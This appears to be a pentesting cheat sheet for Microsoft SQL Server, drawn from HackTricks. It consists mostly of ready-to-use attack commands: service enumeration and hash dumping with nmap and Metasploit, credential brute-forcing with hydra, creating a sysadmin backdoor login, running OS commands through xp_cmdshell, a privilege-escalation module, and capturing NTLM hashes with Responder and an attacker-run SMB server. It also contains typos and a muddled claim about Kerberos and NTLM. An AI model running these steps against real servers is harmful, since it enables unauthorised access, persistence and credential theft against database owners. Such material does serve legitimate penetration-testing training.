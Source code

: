 ```yaml
---
title: MSSQL (Microsoft SQL) Pentesting
description: MSSQL is a relational database management system. A default port is 1433.
tags:
    - Database
    - Windows
refs:
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
date: 2023-10-30
draft: false
---
```


## Enumeration

```sh
nmap --script ms-sql-info -p 1433 <target-ip>
nmap --script ms-sql-config -p 1433 <target-ip>
nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 <target-ip>
nmap --script ms-sql-* -p 1433 <target-ip>

# Metasploit
msfconsole
msf> use admin/mssql/mssql_enum
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
```

### Brute Force Credentials

```sh
hydra -L usernames.txt –p password <target-ip> mssql
hydra -l username –P passwords.txt <target-ip> mssql
```

<br />

## Connect

```sh
# impacket
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth

# sqsh
sqsh -S <target-ip> -U username -P password
sqsh -S <target-ip> -U username -P password -D database
```

<br />

## Commands

```sh
# Get all users
> SELECT * FROM sys.database_principals

# Switch to the database
> USE <database>

# Get databases
> SELECT * FROM master.dbo.sysdatabases

# List tables
> SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>

# Get the version of MSSQL
> SELECT @@version

# Check if the current user have permission to execute OS command
> USE master
> EXEC sp_helprotect 'xp_cmdshell'

# Get linked servers
> EXEC sp_linkedservers
> SELECT * FROM sys.servers

# Create a new user with sysadmin privilege
> CREATE LOGIN tester WITH PASSWORD = 'password'
> EXEC sp_addsrvrolemember 'tester', 'sysadmin'

# Get current username
> SELECT user_name()
```

<br />

## Spawn a Windows Command Shell and Run Commands using Impacket

If we connected MSSQL using **impacket**, we can exeucte the Windows Shell Commands by **"enable_xp_cmdshell"**.

### Enable/Disable a Windows Shell

```powershell
> enable_xp_cmdshell
> disable_xp_cmdshell
```

### Commands

We can execute commands the same as Windows Command Prompt.

```powershell
# Get current user
> xp_cmdshell whoami

# Show files and directories
> xp_cmdshell dir
> xp_cmdshell dir \Users
# Show hidden files
> xp_cmdshell dir /a

# Get current directory
> xp_cmdshell cd

# Get contents of file
> xp_cmdshell more \Users\Administrator\example.txt
> xp_cmdshell type \Users\Administrator\example.txt
```

<br />

## Privilege Escalation

```bash
msfconsole
msf> use exploit/windows/mssql/mssql_linkcrawler
```

<br />

## Get NTLM Hash

MSSQL uses **Keberos** to authenticate users so we can retrieve the NTLM hash.

### 1. Start SMB Server and Responder

First we need to start a SMB server and Responder in each terminal.

```bash
# In terminal 1
sudo responder -I <interface>

# In terminal 2
sudo impacket-smbserver share ./ -smb2support

# In terminal 3
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

### 2. Execute with Metasploit

In msfconsole, select the following module.

We need to set the “SMBPROXY” option to the Responder IP (this ip is displayed when starting Responder in terminal).

```bash
msfconsole
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
msf> set rhosts <target_ip>
msf> set username <username>
msf> set password <password>
msf> set smbproxy <responder_ip>
msf> run
```

When executing, we can see the NTLM hash in the terminal where SMB server is running.